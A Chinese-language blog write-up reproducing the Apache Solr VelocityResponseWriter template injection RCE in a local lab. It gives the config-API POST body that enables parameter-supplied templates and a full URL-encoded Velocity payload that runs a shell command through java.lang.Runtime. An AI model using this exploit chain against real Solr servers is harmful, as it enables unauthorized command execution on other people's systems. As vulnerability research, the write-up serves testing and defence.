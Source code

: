 # Apache Solr Velocity模板注入RCE漏洞复现

## 一、前言

Solr是一个独立的企业级搜索应用服务器,它对外提供类似于web-service的API接口,用户可以通过http请求,向搜索引擎服务器提交一定格式的XML文件,生成索引,也可以通过http get操作提出查找请求,并得到XML格式的返回结果。

## 二、漏洞描述

该漏洞的产生是由于两方面的原因：

当攻击者可以直接访问Solr控制台时，可以通过发送类似/节点名/config的POST请求对该节点的配置文件做更改。

Apache Solr默认集成VelocityResponseWriter插件，在该插件的初始化参数中的params.resource.loader.enabled这个选项是用来控制是否允许参数资源加载器在Solr请求参数中指定模版，默认设置是false。
当设置params.resource.loader.enabled为true时，将允许用户通过设置请求中的参数来指定相关资源的加载，这也就意味着攻击者可以通过构造一个具有威胁的攻击请求，在服务器上进行命令执行。（来自360CERT）

## 三、影响范围

Apache Solr 5.x - 8.2.0，存在config API版本

四、环境搭建

下载地址

https://mirrors.tuna.tsinghua.edu.cn/apache/lucene/solr/

解压压缩包，启动solr

![1573479758591](D:\hacker book\blog\VWRAT\image\1573479758591.png)

访问http://127.0.0.1:8983/solr/#/~cores/new_core，添加new_core

![](D:\hacker book\blog\VWRAT\image\1573479895996.png)

## 四、漏洞复现

获取core名称

访问http://127.0.0.1:8983/solr/admin/cores?wt=json&indexInfo=false

![1573480278213](D:\hacker book\blog\VWRAT\image\1573480278213.png)

Apache Solr默认集成VelocityResponseWriter插件，该插件初始化参数中的params.resource.loader.enabled默认值设置为false，但是可以通过POST请求直接修改集合设置，将其设置为true，然后就可以构造特殊的GET请求来实现远程代码执行。

![1573482066083](D:\hacker book\blog\VWRAT\image\1573482066083.png)

post以下数据，返回200响应码

        {
            "update-queryresponsewriter": {
            "startup": "lazy",
            "name": "velocity",
            "class": "solr.VelocityResponseWriter",
            "template.base.dir": "",
            "solr.resource.loader.enabled": "true",
            "params.resource.loader.enabled": "true"
            }
        }
![1573482566107](D:\hacker book\blog\VWRAT\image\1573482566107.png)

构造paloayer实现rce:

[http://127.0.0.1:8983/solr/new_core/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%22id%22))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()\])$str.valueOf($chr.toChars($out.read()))%23end](http://127.0.0.1:8983/solr/new_core/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x='')+%23set($rt=$x.class.forName('java.lang.Runtime'))+%23set($chr=$x.class.forName('java.lang.Character'))+%23set($str=$x.class.forName('java.lang.String'))+%23set($ex=$rt.getRuntime().exec("id"))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end)

![1573482681109](D:\hacker book\blog\VWRAT\image\1573482681109.png)